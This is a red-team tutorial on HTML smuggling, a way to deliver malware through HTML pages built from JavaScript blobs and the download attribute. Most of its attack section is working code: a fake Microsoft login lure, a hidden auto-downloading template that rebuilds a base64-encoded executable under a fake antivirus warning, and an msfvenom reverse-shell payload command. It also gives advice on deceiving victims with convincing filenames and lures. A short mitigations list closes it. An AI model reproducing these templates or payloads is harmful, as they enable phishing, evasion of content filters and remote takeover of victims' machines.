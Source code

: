# HTML Smuggling

## Summary
HTML Smuggling has been around for a while, but it has seen an uptick in its usage lately with malware like Qakbot utilizing it. 
## What is it?
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag.
## What are anchor tags?
The anchor tag <a> defines a hyperlink that can be used to link one page to another resource like the script, other HTML page or downloadable files. When <a> is used with the “download” attribute, it can be used to provide links to a downloadable file. 
## What is a Javascript Blob?
JavaScript blobs are objects that are a collection of bytes that contain data stored in a file. Blob data is stored in the user’s memory. This collection of bytes can be used in the same places where an actual file would have been used. In other words, blobs can be used to construct file-like objects on the client that can be passed to JavaScript APIs that expect URLs.
Blobs are very useful for storing binary data because their content can be easily read as an ArrayBuffer. Blobs can be stored in the memory or on disk by the web browser, and they can represent truly massive bits of data that are too large to fit in the main memory unless first separated into smaller pieces with the slice () method.
The syntax for creating a JavaScript blob may be defined as:
```
new Blob("blobParts, options");
```
- Blobparts: It is an array of Blob, BufferSource, and string values.
- Options: It is an optional object.
- Type: It is a Blob type, generally MIME-type like image.png.

An example would be:
```
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="utf-8">  
    <title>JavaScript Blob</title>  
</head>  
<body>  
    <p id="main"></p>  
    <script>  
var abc = new Blob(["Wassup Playa"],   
{type : "text/plain"});  
var def = new FileReader();  
def.addEventListener("loadend", function(e) {  
document.getElementById("main").innerHTML  
     = e.srcElement.result;  
});  
def.readAsText(abc);  
</script>  
</body>  
</html>  
```
Let’s break this down:

1.	We start our HTML document with the tag HTML
2.	This is followed by \<head\> to indicate a header, where you can store things like meta tags as well as a title
3.	<title> is what will show at the top of the tab
4.	<body> starts the body of the HTML file
5.	<p> is to indicate a parameter. In this case we are specifying ‘main’ as an id element. Later in the HTML we will be referencing this ID. 
6.	<script> indicates that what comes next is Javascript
7.	var abc = new Blob(["Wassup Playa"],   {type : "text/plain"});  We can see this follows the Javascript Blob syntax I mentioned earlier. The text here, Wassup Playa, is what we will want shown on the page, thus it is the data element, in this case being a string value. Then its followed by the MIME type of text/plain. All of this is being assigned to the variable abc, so that whenever abc is used, it really means this Blob that has the string value of Wassup Playa
8.	Next we see a variable assigning FileReader. The FileReader object lets web applications asynchronously read the contents of files (or raw data buffers) stored on the user's computer, using File or Blob objects to specify the file or data to read. This is assigned to the variable def. https://developer.mozilla.org/en-US/docs/Web/API/FileReader 
9.	It is using the FileReader component of addEventListener, which sets up a function that will be called whenever the specified event is delivered to the target. It has the syntax of addEventListener(type, listener) So in our code, the type is FileReader’s loadend event https://developer.mozilla.org/en-US/docs/Web/API/FileReader/loadend_event The loadend event is fired when a file read has completed, successfully or not. Next part is function(e). Function is the function to run when the event occurs, which in this case is the loadend event. 
10.	Next it looks through the document table and gets the element named ‘main’, which we defined earlier in the start of our paragraph. innerHTML sets or returns the HTML content (inner HTML) of an element. In the case of our code, it is setting or changing the value that was in the element with the id of ‘main’ to e.srcElement.result
11.	Next, we see the readAsText portion. This starts reading the contents of the specified Blob, once finished, the result attribute contains the contents of the file as a text string. The Blob is referenced by its variable abc.
12.	The rest of the code just closes out the rest of the HTML document

If we save that and run it in a browser we will see the words Wassup Playa. 
## HTML5 Download Attribute
One way that we can get a user to download something is using the download attribute from HTML5. For this I hosted an Atomic Red Team test dll called s.dll. The raw file can be found [here](https://github.com/sh1katagana1/RedTeam/raw/main/s.dll) So my HTML page that I would send to the victim could look like this (obviously this is not very pretty, just functional for testing)
```
<html>
<body>
<h1>Microsoft Login Page!</h1>
<p>Alert! We detected some unusual activity, Login to continue. </p>
<a href="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll" download="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll">Login Here</a>
</body>
</html>
```
If we load that page we should see the Microsoft Login Page! text and it should prompt for download of s.dll when you click "login to continue". You can see how it can be crafted in whatever way you want, but all that’s being emailed is the HTML that does this. Additionally, the victim may have their browser at default settings which wouldn’t give this prompt but just download it. 

## Malicious Smuggle Test
Now that we have seen benign usage of some ways to do HTML Smuggling, lets try with an actual binary. For this I am using a renamed version of dnscat because I know Defender blocks it as malicious. The dnscat executable I have renamed to leroy3.exe. My test is based off of examples found [here](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

![](smuggle1.png)

First, we need to base64 encode it because the binary can’t directly be copied as a buffer because it contains various characters that might break the buffer and full file may not be copied that way. We use the base64 tool in Kali:
```
Cat leroy.exe | base64
```

![](smuggle2.png)

It is a fairly long output. The issue with this is there is “enter” or carriage returns and its not all in one single line. In order to supply this into our blob as a buffer, we need a single string with no enters. To do this we go [here](https://base64.guru/converter/encode/file) and upload our file and convert it to base64 as plain text-just the base64 value:

![](smuggle3.png)

The goal is to create a JavaScript Blob and a script that will allow us as an attacker to make our code recompile as an EXE file at the victim end. This approach can bypass many content filters and firewalls since the data is travelling as a string text. Here is the template we can use, just replace var binary='<value>' with the actual Base64 string value
```
<html>
<body>
<h1>Malware Detected!</h1>
<p>Alert! Run the downloaded script for anti-virus scan!</p>
<script>
function b64toarray(base64) {
        var bin_string = window.atob(base64);
        var len = bin_string.length;  
        var bytes = new Uint8Array( len );
        for (var i = 0; i < len; i++)
        {
                bytes[i] = bin_string.charCodeAt(i);
        }
        return bytes.buffer;
}
var binary ='<value>'

var data = b64toarray(binary);
var blob = new Blob([data], {type: 'octet/stream'});
var payloadfilename = 'payload.exe';

var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none'; 
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = payloadfilename;
a.click();
window.URL.revokeObjectURL(url);
</script>
</body>
</html>
```
First, let’s see the results of it, then we can break down whats going on in the script. So when someone gets this HTML and opens it, it will automatically craft the executable from the base64 content and then download it without anyone needing to click a link. Some peoples browsers may simply download without a prompt, so keep that in mind. 

![](smuggle4.png)

There we see it automatically starts the download upon me visiting the page, because of the click() function, and a message stating that whatever was downloaded needs to be run to scan for viruses (of course be more crafty than this). I allow the download and then we can run strings on it to verify it is indeed the dnscat executable. 

![](smuggle5.png)

![](smuggle6.png)

We do see code above indicating it is indeed dnscat. Lets break down what the code is doing:
1.	Function b64toarray: Takes input of our base64 encoded binary file and converts it into a buffer array. This is necessary as the “Blob()” function takes input from a buffer array as the first parameter.
2.	Variable binary: This variable contains the base64 string of our binary and is used to provide function b64toarray input. Replace Value with our base64 encoded string.
3.	Variable blob: Holds the blob we just created and takes two inputs as explained above. Here, since we are providing a binary as input the MIME type becomes octet/stream
4.	Variable payloadfilename: It is the name that will be given to our binary once it is downloaded on the victim’s machine. This is what you would want to name to be convincing to the victim.
5.	CreateElement: A DOM function that can create new HTML elements with the help of JavaScript. For example to create a new para in HTML we type: \<p>New Para\</p>
6.	style: We are using the styling ‘display: none’ to be more discreet so that a tag isn’t visible on the output.
7.	createObjectURL(): A DOM function that can return a DOMString containing a value that represents the URL of an object. This object can be a file, media source or in our case blob. It is very necessary as the a.download works on valid URLs only. For our payload blob to be downloaded on the victim, we need to supply the a.download element with a valid URL which this function returns.
8.	click(): Is what will trigger this anchor tag to automatically run. It simulates as if a user has actually clicked on the link provided by the href tag.

You can also fir up Kali and try this with an msfvenom created payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.129.132 LPORT=1234 -f exe > payload.exe
```
Base64 encode this on base64.guru and try the same template. 

## Mitigations
- Configure security products to block against pages using JS or VBScript from automatically running a downloaded executable. Windows Attack Surface Reduction Rules are handy for this https://learn.microsoft.com/en-us/mem/intune/protect/endpoint-security-asr-profile-settings  - Specifically the following rules:
	- Block execution of potentially obfuscated scripts (js/vbs/ps)
	- Block JavaScript or VBScript from launching downloaded executable content
- Whitelist executable filenames
- Set .js and .jse to open with notepad by default and not a browser
- Educate users to manually review e-mail attachments
- Set behaviour rules for HTML pages that decode base64 code or obfuscate a JS script.
- Microsoft’s Safe Links and Safe Attachments provide real-time protection against HTML smuggling and other email threats by utilizing a virtual environment to check links and attachments in email messages before they are delivered to recipients. Thousands of suspicious behavioral attributes are detected and analyzed in emails to determine a phishing attempt

## References
[delivr](https://blog.delivr.to/html-smuggling-recent-observations-of-threat-actor-techniques-74501d5c8a06) \
[outflank](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/) \
[pentest notes](https://github.com/SofianeHamlaoui/Pentest-Notes/blob/master/offensive-security/defense-evasion/file-smuggling-with-html-and-javascript.md) \
[cyfirma](https://www.cyfirma.com/outofband/html-smuggling-a-stealthier-approach-to-deliver-malware/) \
[trustwave](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/html-smuggling-the-hidden-threat-in-your-inbox/) \
[html smuggling detection](https://micahbabinski.medium.com/html-smuggling-detection-5adefebb6841) \
[hacking articles](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

